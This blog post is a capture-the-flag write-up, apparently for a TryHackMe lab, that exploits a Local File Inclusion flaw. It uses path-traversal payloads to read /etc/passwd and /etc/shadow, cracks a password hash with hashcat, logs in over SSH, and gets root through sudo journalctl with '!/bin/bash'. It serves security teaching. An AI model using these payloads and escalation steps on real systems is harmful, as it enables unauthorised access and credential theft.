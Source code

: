 ```yaml
---
title: Local File Inclusion - LFI
author: Dimitrios Tsarouchas
date: 2021-02-01 20:55:00 +0800
categories: [CTFs, TryHackMe]
tags: [ctf, tryhackme, linux]
pin: true
featured-image: /assets/img/local-file-inclusion-vulnerability.jpg
featured-image-alt: Kenobi
---
```


![Local File Inclusion](/assets/img/local-file-inclusion-vulnerability.jpg)*Image from netsparker.com*

## Introduction
We are going to exploit a Linux machine that is vulnerable to Local File Inclusion attack. This will be done by using the [Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal){:target="_blank"} technique. We will get access to a local user account by cracking its password hash and then elevate our privileges, get access as superuser and find the flag.

## What is Local File Inclusion?

LFI or Local File Inclusion is a vulnerability that exploits improper input sanitisation in web applications and can lead to information disclosure, Cross-site Scripting (XSS), and remote code execution.

## Getting user access via LFI

To test a web application for LFI vulnerability we need any input field or a parameter and value combination in the URL for example `example.com/file=robots.txt`. 

With that in mind, an intruder could use LFI to access the target system and read files that which may contain sensitive information like SSH keys or passwords. Having this information in their hands intruders can then use this data to further compromise the system.

### Using the parameter found in the URL

Looking around the website and focusing on the URL bar we can see the parameter **page** with its value set to **contact.html** page. Let's check if the website is vulnerable to LFI by exploiting the `page` parameter we just found. 

First thing we can try is to get access to the `/etc/passwds` to check what users lives in that system. We will use the Path Traversal method which will give us access to files and directories that are stored in the system. 

We can include files like `../../etc/passwd` to go out twice from the current working directory and go read the `passwd` file that is inside the `/etc` directory. 

We will use from [PayloadsAllTheThings](https://github.com/cyberheartmi9/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal#basic-lfi-null-byte-double-encoding-and-other-tricks){:target="_blank"} the basic LFI `http://example.com/index.php?page=../../etc/passwd` and our URL should look like this `/home?page=../../etc/passwd`.

If we pay close attention at the very bottom of the web page, under the footer section, we managed to print all the users that exist in the system as well as proving that the system is vulnerable to Local File Inclusion. 

We can find valuable information about `/etc/passwd` at [nixCraft](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/){:target="_blank"} website. 

### Find a user in /etc/passwd

Looking better at `/etc/passwd` at the very bottom we can see that the user **Falcon** exists on the system.  

![Falcon user](/assets/img/LFI/etcpasswdFalcon.png) *Falcon user found in /etc/passwd file*

### Find Flacon's password hash

 Now that we have the user the only thing left is to find his password and get access to the system. In order to obtain Falcon's password we need to print the shadow file which contains the users hashes. From there we can grab Falcon's password hash and try crack it using Hashcat. 
 
 The only thing we have to do is to modify our value in the page parameter to look for the shadow file like  `/home?page=../../etc/shadow`. 

 ![Falcon's password hash](/assets/img/LFI/etcshadowFalcon.png) *Falcon's password hash found in /etc/shadow file*

We successfully found Falcon's hash starting with `$6$` indicating that uses **SHA512** algorithm. We will use Hashcat with hash mode of 1800 (sha512crypt $6$, SHA512) providing the FalconHash.txt text file which contains Falcon's hash against the rockyou.txt wordlist. 

### Cracking Falcon's password hash

``` terminal 
# hashcat -a 0 -m 1800 FalconHash.txt /usr/share/wordlists/rockyou.txt                                                                               
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$6$xQmTDVmT$hgSLG3ebs.8Tc/F4qqXNnvBBnG736EWpWKaprFVARjAsZ6JyoL4WaJdGv5.qddMWF4/MoJgN6Hekri8wyJ97k/:password09
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: sha512crypt $6$, SHA512 (Unix)
``` 

Hashcat carcked successfully Falcon's password hash and revealed that Falcon uses the password: **password09**

The only thing that is left is to SSH into the target machine providing Falcon's credentials and find the user flag.

```terminal
# ssh falcon@10.10.215.76                                                  
falcon@walk:~$ ls -l
total 4
-rw-r--r-- 1 falcon falcon 21 Jan 29  2020 user.txt
falcon@walk:~$ cat user.txt
```

## Escalating our privileges to gain root access

Now that we have access to Falcon's account we will try to escalate our privileges to gain root access on the machine. In order to gain root access we need to find a vector such as a binary that could be exploited. 

You can find more information about Linux Privilege Escalation on [mzrf's blog](https://blog.mzfr.me/posts/2020-02-1-linux-priv-esc/){:target="_blank"}. 

Using the `sudo -l` command we can see what commands can Falcon run on the system as root user.
 

```terminal
falcon@walk:~$ sudo -l
Matching Defaults entries for falcon on walk:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falcon may run the following commands on walk:
    (root) NOPASSWD: /bin/journalctl

```

Falcon is able to run the `/bin/journalctl` command as superuser and now we need to find a way to use that binary for elevating our privileges. 

Searching in [GTFObins](https://gtfobins.github.io/gtfobins/journalctl/){:target="_blank"} website we found that privilege escalation can be achieved by using the sudo program. 

![Journalctl](/assets/img/LFI/journalctl.png) *GTFObins - journalctl*

After executing `sudo journalctl` we want to gain shell access as root user and we do that by using  the `!/bin/bash`.  

```terminal
falcon@walk:~$ sudo journalctl 
Jan 28 19:00:21 walk kernel: Linux version 4.15.0-20-generic (buildd@lgw01-amd64-039) (gcc version 7.3.0 (Ubuntu 7.3.0-16ubuntu3)) #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 (Ubuntu 4.15.
Jan 28 19:00:21 walk kernel: Command line: BOOT_IMAGE=/boot/vmlinuz-4.15.0-20-generic root=UUID=979754d8-4db7-4b66-a804-28a498c1cc0f ro
!/bin/bash

root@walk:~# id
uid=0(root) gid=0(root) groups=0(root)
root@walk:~# pwd
/home/falcon
```

Now we need to move to the /root directory and print the root's flag.

```terminal
root@walk:/# cd root
root@walk:/root# ls
root.txt
root@walk:/root# cat root.txt 
```